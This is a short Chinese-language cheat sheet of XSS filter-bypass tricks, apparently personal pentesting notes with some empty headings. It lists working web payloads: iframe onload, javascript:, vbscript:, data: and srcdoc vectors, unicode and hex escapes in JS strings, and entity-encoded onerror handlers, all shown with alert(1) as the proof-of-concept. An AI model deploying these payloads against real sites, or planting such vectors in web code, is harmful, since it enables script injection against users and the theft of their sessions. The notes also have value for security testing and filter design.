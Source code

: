 ```txt
1. 反编译swf，发现危险函数
2. 首先确定FLASH是否有接受参数
```
XSS 绕过Tips
##浏览器特性
* chrome会自动对",>,<进行转换。
```txt
    ?key;alert(1);//=aaaa
    换成
    this.key="aaa";alert(1);//";
    会变成
    this.key="aaa%22;alert(1);//";

```
* iframe 相关
```txt
    onload执行js:
        <iframe onload="alert(1)"></iframe>,src执行javascript代码
        <iframe src="javascript:alert(1)"></iframe>
    IE下vbscript执行代码:
        <iframe src="vbscript:msgbox(1)"></iframe>
    Chrome下data协议执行代码：
        <iframe src="data:text/html,<script>alert(1)</script>"></iframe>Chrome
    上面的变体
        <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    Chrome下srcdoc属性
        <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

## js特性的绕过
* 以functionxxx(){}形式定义的函数，都会被最优先解析。这样可以对一些未定义变量进行绕过
* JS的字符串中的字符可以写为unicode编码
    ```txt
    在JS字符串里，<不光可以写为\u003c，还可以写为\x3c，>同样可以写为\x3e
    ```
*
## 编码类型的绕过
1. 在HTML属性中，会自动对实体字符进行转义
```txt
<img src="1"onerror="alert(1)">
和
<img src="1"onerror="alert&#x28;1&#x29;">
是等效的

```

2.
## flash 类型的绕过
## 标签类型的绕过
javascript on*事件、style属性、action/src/href等
